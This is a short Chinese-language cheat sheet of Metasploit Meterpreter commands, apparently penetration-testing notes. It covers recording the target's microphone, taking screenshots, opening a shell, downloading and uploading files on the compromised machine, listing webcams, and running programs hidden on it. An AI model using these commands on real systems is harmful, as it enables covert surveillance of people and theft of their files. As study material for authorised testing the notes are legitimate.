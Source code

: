 ```msf
```
- 录制声音
```msf
record -d xx
//录制音频xx秒
record_mic
//录制音频
```
- 截屏
```msf
screenshot
```
- 进入cmd
```msf
shell
```
- 从目标机器下载东西
```msf
download C:\\path\\to\\file
```
- 从kali上传内容到目标机器
```msf
upload ~/file C:\\path\\up\\
```
- 查看有几个摄像头
```msf
webcam_list
```
-运行程序
```msf
execute -f 文件名
//运行文件
execute -f -H 文件名
//隐秘的运行应用
execute -i -f -H 文件名
//隐秘的交互进行应用,当文件名为cmd时meterpreter命令行会变成cmd
```
